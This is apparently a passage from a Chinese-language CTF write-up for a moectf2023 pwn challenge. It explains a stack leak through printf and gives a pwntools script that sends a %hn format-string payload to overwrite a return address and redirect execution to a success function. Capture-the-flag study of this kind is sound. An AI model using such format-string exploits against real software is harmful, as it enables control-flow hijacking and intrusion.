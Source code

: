 ![image-20230822213146201](./moectf2023-pwn-wp.assets/image-20230822213146201.png)

可以看到buf在0xffffd01c的位置，而返回地址在buf + 0x20的位置，并且利用printf的第二个参数（格式化字符串的第一个参数）是buf的地址可以泄露栈的内存，将泄露的内存加上0x20即可得到返回地址的地址。最后修改返回地址为success函数即可。

```python
from pwn import *

parent_path = "/home/user/temp/"
context(os="linux", arch="amd64") 
sh = remote("localhost", 35684)

sh.sendline(b'3')
sleep(2)
sh.sendline(b'%p') #泄露栈地址
sleep(2)
sh.recvuntil(b'0x')
pointer = int(sh.recv()[:8],  16) + 0x20 # 返回地址与buf的偏移量为0x20
print(hex(pointer)) # pointer指向栈上的返回地址
# 7是offset，0x9317是要返回的地址的后2个字节
# 当返回地址与原地址只有最后2字节不同最好，相差2字节以上时运行时间过长

sh.sendline(b'3')
sleep(2)
# 0x9317-4是因为前面有4个字节的地址
pad = p32(pointer) + b'%' + str(0x9317 - 4).encode() +  b'c%7$hn'
sh.sendline(pad)
sh.interactive()
```
